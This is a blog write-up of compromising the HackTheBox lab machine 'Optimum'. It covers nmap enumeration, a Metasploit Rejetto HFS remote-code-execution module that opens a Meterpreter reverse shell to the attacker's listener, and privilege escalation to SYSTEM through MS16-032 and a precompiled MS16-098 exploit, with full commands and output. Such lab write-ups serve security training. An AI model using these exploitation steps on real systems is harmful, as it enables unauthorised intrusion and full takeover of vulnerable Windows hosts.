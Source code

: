 ```yaml
---
layout: post
title: HackTheBox | Optimum
date: 2018-07-02 19:00:00 -0400
categories: hackthebox
image:
  feature: assets/img/192032c15b8c0b165d309ec5bd73484c.jpg
  credit: 
  creditlink: 
---
```

This post will describe exploitation of the Optimum device on [HackTheBox](https://www.hackthebox.eu).

# Enumeration

```bash
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
|_http-server-header: HFS 2.3
|_http-title: HFS /
```

So this gives us one service, a HFS file server.  A quick search reveals that this version, v2.3, is in fact vulnerable to [remote code execution](https://www.exploit-db.com/exploits/39161/).  That's pretty handy, so we can likely get a shell very quickly.  A further search reveals that this version also has a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec) for it, so we can get a meterpreter shell even easier, and considering it's a windows box, that's a life-saver (I'll kick the habit some day I swear!!).  So let's run the module and have a look around.

```bash
msf exploit(rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

There doesn't appear to be much we need to set here bar the RHOST.  We're assuming from nmap that the TARGETURI is simply /, and it doesn't take more than a quick run to confirm this.

```bash
msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8

msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.13.202:4444 
[*] Using URL: http://0.0.0.0:8080/HathpeeW54bHa75
[*] Local IP: http://192.168.117.130:8080/HathpeeW54bHa75
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /HathpeeW54bHa75
[*] Sending stage (957487 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.13.202:4444 -> 10.10.10.8:49189) at 2017-05-18 18:02:39 +0100
```

Boom we have a shell!  Now lets escalate!

# Privilege Escalation - Method 1

I spent a lot of time rooting around on this box, but came to the conclusion that it absolutely had to be vulnerable to [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc), but couldn't for the life of me get it to work.  The device wasn't patched recently, and the exploit was famous for being fairly consistently, so in my head it had to work.  I tried the [powershell exploit](https://www.exploit-db.com/exploits/39719/) and the [metasploit one](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc), but nothing gave me a shell.  Hindsight is 20/20, and while I initially exploited it via the second, it's a good idea to see how both methods work.

Exploiting the metasploit module requires a number of different options set.  Firstly, we need to ensure we have a 64 bit meterpreter.  We can just set this before we run the rejetto hfs exploit to give us a shell.

    msf exploit(rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp

So now we absolutely have an x64 based shell, after some enumeration using systeminfo and `post/multi/recon/local_exploit_suggester`, we discover that the machine is vulnerable to [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc).  So lets background the shell and load up this module.

    meterpreter > background 
    [*] Backgrounding session 2...
    msf exploit(rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
    msf exploit(ms16_032_secondary_logon_handle_privesc) > show options
    
    Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on.
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    
    msf exploit(ms16_032_secondary_logon_handle_privesc) > set SESSION 2
    SESSION => 2
    msf exploit(ms16_032_secondary_logon_handle_privesc) > show targets
    
    Exploit targets:
    
       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

From this, we see that the machine has two targets, one for x86 and one for x64.  Since, obviously, we're targeting an x64 based machine we need to select the correct target.

```bash
msf exploit(ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
```

So now we just run the exploit the exploit and we'll pop a system shell.

# Privilege Escalation - Method 2

An absolutely fantastic tool is windows-exploit-suggester.  It takes the list of patches output by systeminfo, and compares this to a database of microsoft patches, attempting to supply a list of exploits to target the machine.  This is an inefficient method, but at the time whilst desperately searching for an exploit, it gave me a way of more effectively targeting my search.

Run `systeminfo` in a shell on the remote pc, and save it in a file called 'systeminfo.txt' on your local machine.

```bash
root@kali:~/Windows-Exploit-Suggester-master# python windows-exploit-suggester.py --database 2017-05-25-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
-- SNIP---
[*] done
```

The method I used here probably isn't as applicable to real-world as I'd want, considering a couple of these crashed Optimum but gave me no shell.  But luckily, very shortly down the list, is MS16-098, which gave me a shell, and them promptly crashed the box once I exited.  So nowhere near as stable as MS16-032 but another entry point into the box.

Exploiting this was simply a matter of downloading the executable from the remote site (we probably should compile it ourselves in future), using meterpreter to upload and then running the executable.

```bash
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```